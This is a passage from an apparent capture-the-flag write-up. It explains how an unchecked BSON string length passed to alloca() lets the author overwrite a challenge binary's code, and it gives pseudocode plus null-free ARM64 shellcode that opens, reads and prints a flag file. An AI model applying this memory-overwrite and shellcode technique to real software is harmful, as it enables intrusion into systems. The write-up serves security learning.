 The first byte, 0x02, is the type of the object. In this case, it's a string
object. Following is the key, which is "hello". The key is null-terminated.
Then we have the length of the string, as a 32-bit int. Then there's a null
byte to signal the end of the object. The code mentioned above does not verify
the length field, but directly passes it to `alloca()` to allocate room on the
stack for the string. Something like this in pseudo C:

```c
char *buf = alloca(string_size);
strcpy(buf, bson_string);
```

We can (ab)use this to point buf into the code section of the binary. We ended
up writing shellcode to address `0x310`, which is the address of the print
syscall. That syscall is the only one being called after the program has parsed
the vulnerable piece of BSON data.

So what should our shellcode do to read the flag? From the rootfs image we know
that there's a file called `flg` that contains the flag. From reversing the
kernel, we figured out that syscall 4 is `open`, 0 is `print`, and 5 is `read`.
And this is exactly what we need! So this is what we are doing in pseudocode:

```c
int fd = open("/flg", 0);
char *buf = (char *)0x610;
read(fd, buf, 0x88);
print(buf);
```

And this is what we came up to make the shellcode null-free:
```asm
.section .text
.global _start

_start:
	// open
	mov x0, 0x354
	mov x1, xzr
	mov x8, 0x184
	sub x8, x8, 0x180
	svc  0x1337

	// read
	mov x1, 0x610
	mov x2, 0x88
	mov x8, 0x185
	sub x8, x8, 0x180
	svc  0x1337

	// print
	mov x1, 0x610
	mov x0, x1
	mov x8, xzr
	svc 0x1337

	// jmp back to entry
	mov x20, xzr
	br x20

path:
.ascii "AAAA/flg"
```
